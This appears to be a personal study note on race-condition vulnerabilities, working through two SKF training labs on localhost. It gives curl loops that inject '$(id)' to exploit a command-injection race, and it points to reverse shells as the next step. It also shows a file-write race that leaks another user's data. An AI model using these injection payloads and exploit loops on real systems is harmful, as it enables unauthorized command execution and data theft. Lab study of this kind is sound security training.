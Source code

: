 ```yaml
---
tags:
  - vulnerabilty
  - "#racecondition"
---
```


# What is a Race Condition

Where two or more services fight for the same resources and don't exists any mechanism that synchronize the access of services.

If two process try to access at the same time, could be that one of them will be unpredictable, or a not expected behavior 



---
# Exploiting

Go to indicate folder and use `sudo npm install` and `sudo npm start`

If you have some problema with `npm install` add a `--force`

![](../../Images/Pasted%20image%2020230906154654.png)

We are analyze the code of the website that is in **app.js** 

And we can see that we can't execute command thanks to this regex, but before execute the valid function, we can see that the file with our name (or malicious command) exists, but after is changed by the regex

![](../../Images/Pasted%20image%2020230906161006.png)

If the variable valid is empty, they call boot_clean() and this function delete the file hello.txt, but before this the command is executed

![](../../Images/Pasted%20image%2020230906164825.png)

In this piece of code exist a little margin when create the file `fs.writeFileSync`, then execute the file and apply the validation, if you go so fast to read the file, maybe you have time to see the result.

We can do this one-liner to check if the command is executing, this is possible because we have access to the files of the website:

You put some name in the website, in my case I put my name and then I use this loop

````bash
while true; do cat hello.txt | grep -v "Sergio"; done
````

`hello.txt` --> In this file is where stored the word that you introduce in the website

`grep` --> You are using grep because you are not interested in see the content of the file until don't change the input in the website

In the website try to inject command:

````bash
$(id)
or
`id`
````

Go to terminal and stop the loop with ctrl_c and if you to the begging you can see the result of the command executed

![](../../Images/Pasted%20image%2020230906165756.png)

But how we can do this if we haven't the files?

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep -i "Check this out" | html2text | xargs; done

# Genereated by S4vitaar
````

You have to send the information in the website, in my case I don't change the name `Default User`

Click on **Make it mine!**

In terminal you have to see this:

![](../../Images/Pasted%20image%2020230906170800.png)

Now we are going to hide the output that contain `Default User`:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep -i "Check this out" | html2text | xargs | grep -v "Default User"; done
````

Now you need to copy the url when put the name, the URL be like:

![](../../Images/Pasted%20image%2020230906171009.png)

````bash
http://localhost:5000/?person=Default+User&action=validate
````

In other terminal you have to use curl command, but change the `Default User` by `$(id)`:

````bash
curl -s -X 'http://localhost:5000/?person=$(id)&action=validate'
````

**Important** --> You have to use single quotes in url because the $(id) would be interpreted by your own machine and this is not interest us

Now we are going to put this command in a while loop:

````bash
while true; do curl -s -X 'http://localhost:5000/?person=$(id)&action=validate'; done
````

After running this command you have to have the after command executing, you have to execute this command in a terminal:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep -i "Check this out" | html2text | xargs | grep -v "Default User"; done
````

and the last in other terminal:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?person=$(id)&action=validate'; done
````

We can see a lot of unnecessary output:

![](../../Images/Pasted%20image%2020230906171733.png)

We can delete this from our output:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep "Check this out" | html2text | xargs | grep -vE "pepe|Important|Default User"; done
````

As I am somewhat impatient I change the name and put `pepe` and I have to change a little the loop 

You have to wait and you can see the result:

![](../../Images/Pasted%20image%2020230906182544.png)

What means this?

That means that you can use a [Reverse shells](../../Shells/Reverse%20shell/Reverse%20shells.md) and gain access to the victim machine, this is vulnerable to a **command injection**

---

# Race condition file write

We are going to the other folder and realize npm install and start

![](../../Images/Pasted%20image%2020230906183234.png)

This is the same

In this case if you put some parameter in the url you obtain a file

> http://localhost:5000/test

If you look the app.js

![](../../Images/Pasted%20image%2020230906183448.png)

You can see that there are some spaces begin write the file and give you (that are time loss)

Imagine that two user at the same time append information in the document shared-file.txt and when they present (upload) the file you can see the content of the other person 

Imagine that other user is sending the data (you can emulate other user with Burpsuite)

````bash
while true; do curl -s -X GET "http://localhost:5000/hello"; done
````

You see the response that is:

![](../../Images/Pasted%20image%2020230906184127.png)

You can put an echo to see better

````bash
while true; do curl -s -X GET "http://localhost:5000/hello"; echo; done
````

Now we are going to remove all the output that contain hello

````bash
while true; do curl -s -X GET "http://localhost:5000/hello" | grep -v "hello"; done
````

If we go to Burpsuite (other user) and send the request with **Repeater**, while this loop is running, at some point can see the data of the other client

![](../../Images/Pasted%20image%2020230906184743.png)

But to obtain in this case the data of the client (Burpsuite) the length of the client must be bigger than the data of the attacker (in the terminal)

And you can see the data of the client that is **asdasd** in our terminal if you send many times the request

![](../../Images/Pasted%20image%2020230906185115.png)

Not always work the first time that you send the request

---
# Remember

For race condition always a lot of request to the server to take the request that are interested

---

# Labs

We are going to use [skf labs](https://github.com/blabla1337/skf-labs)

nodeJs/RaceCondition

After we are going to see nodeJs/RaceCondition-file-write

